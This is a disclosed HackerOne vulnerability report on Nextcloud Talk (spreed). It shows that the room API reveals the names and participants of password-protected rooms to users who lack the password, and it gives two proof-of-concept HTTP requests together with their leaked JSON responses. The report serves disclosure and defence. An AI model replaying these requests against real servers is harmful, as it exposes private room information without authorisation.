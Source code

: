 # Talk / spreed: Disclosure of Room names and participants for password protected rooms

## Report Details
- **Report ID**: 428010
- **URL**: https://hackerone.com/reports/428010
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-24T14:31:02.225Z
- **Disclosed**: 2019-04-17T14:22:58.001Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
CVSS
----

5.3 Medium [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) (CVSS isn't always as fine-grained as I'd like; personally, I would rate the issue somewhere between low and medium)

Description
-----------

The API of the official [spreed/talk](https://github.com/nextcloud/spreed) extension reveals potentially sensitive information such as room names or participants of password-protected rooms to users without the password.

An account is not required to access room names.

POC: Shared, password protected room leaks room name to unauthenticated attackers
---------

Prerequisite: Create a room, click on "Share link", and enable password protection.

As unauthenticated user, visit the login page to get cookies and a CSRF token. 

The unauthenticated user cannot access `nextcloud/nextcloud/ocs/v2.php/apps/spreed/api/v1/room` or `nextcloud/nextcloud/ocs/v2.php/apps/spreed/api/v1/room/iu86mvxv/participant` ("Current user is not logged in"). However, they can access specific rooms based on the room id:

    GET /nextcloud/nextcloud/ocs/v2.php/apps/spreed/api/v1/room/bk9we2vg HTTP/1.1
    Host: 192.168.0.103
    [...]
    requesttoken: [...]
    [...]
    Cookie: [...]
    Connection: close

    HTTP/1.1 200 OK
    {"ocs":{"meta":{"status":"ok","statuscode":200,"message":"OK"},"data":{"id":13,"token":"bk9we2vg","type":3,"name":"supersecret","displayName":"supersecret","objectType":"","objectId":"","participantType":4,"participantInCall":0,"participantFlags":0,"count":1,"hasPassword":true,"hasCall":false,"lastActivity":1540389616,"unreadMessages":0,"unreadMention":false,"isFavorite":false,"lastPing":0,"sessionId":"0","participants":[],"numGuests":0,"guestList":"","lastMessage":[]}}}

Despite being password protected, the room leaked the room name - which might contain sensitive information - to unauthenticated attackers.

POC: Shared, password protected room leaks participans to authenticated attackers
--------------------

Prerequisite: Create a room, click on "Share link", and enable password protection.

As an authenticated user, issue the following request:

    GET /nextcloud/nextcloud/ocs/v2.php/apps/spreed/api/v1/room/bk9we2vg/participants HTTP/1.1
    Host: 192.168.0.103
    [...]
    requesttoken: [...]
    [...]
    Cookie: [...]
    Connection: close

    HTTP/1.1 200 OK
    {"ocs":{"meta":{"status":"ok","statuscode":200,"message":"OK"},"data":[{"inCall":0,"lastPing":1540389861,"sessionId":"hnHuuwybsX6r65fbWFpwqvjZ+R15kumbONTr+ynIO5yu6TpDdPzDXov6+l3H2PkKX7X9FIC4BqAHBoZ\/Ath\/Fqjg9ljuj7smGUyf\/1Z8B\/yw9kotgZd4rM00OOaB2s+8Lph5zizgp7PoHiCvKTw2azAFIWBhLSe9fXQ9sdxzSMYSLAoYCaObU394OQO3ITJVjDQZQ1VOUSx+7dDPI1ycIZVTR\/tOSXg7tfHCigOvetJkRxURCD3V80rdRR2n9IK","participantType":1,"userId":"admin","displayName":"admin"}]}}

Despite being password protected, the room leaked the participant list to an authenticated attacker. From what I can tell, `sessionId` should not leak either, but isn't useful for an attacker.

Solution
--------

The information should only be displayed to users that have authenticated themselves with the correct password for the room.

## Impact

Disclosure of Room names and participants for password protected rooms to unauthenticated or authenticated users without password.

## Attachments
No attachments
